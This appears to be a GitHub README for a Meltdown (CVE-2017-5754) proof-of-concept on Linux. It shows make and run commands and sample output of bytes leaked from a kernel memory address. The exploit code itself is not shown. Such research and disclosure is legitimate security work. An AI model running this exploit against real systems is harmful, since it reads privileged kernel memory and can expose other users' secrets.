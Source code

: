 # Meltdown
PoC for Meltdown in linux (CVE-2017-5754)
### Useage
	* make
	* ./meltdown [address] [size]
### Example
  $ ./meltdown 0xffffffff81a00200 16
  [*] Leak addr : 0xffffffff81a00200 - 0xffffffff81a00210 (16)

  =========================
  0xffffffff81a00200 : b0
  0xffffffff81a00201 : 00
  0xffffffff81a00202 : 21
  0xffffffff81a00203 : 81
  0xffffffff81a00204 : ff
  0xffffffff81a00205 : ff
  0xffffffff81a00206 : ff
  0xffffffff81a00207 : ff
  0xffffffff81a00208 : 70
  0xffffffff81a00209 : 01
  0xffffffff81a0020a : 21
  0xffffffff81a0020b : 81
  0xffffffff81a0020c : ff
  0xffffffff81a0020d : ff
  0xffffffff81a0020e : ff
  0xffffffff81a0020f : ff
  =========================
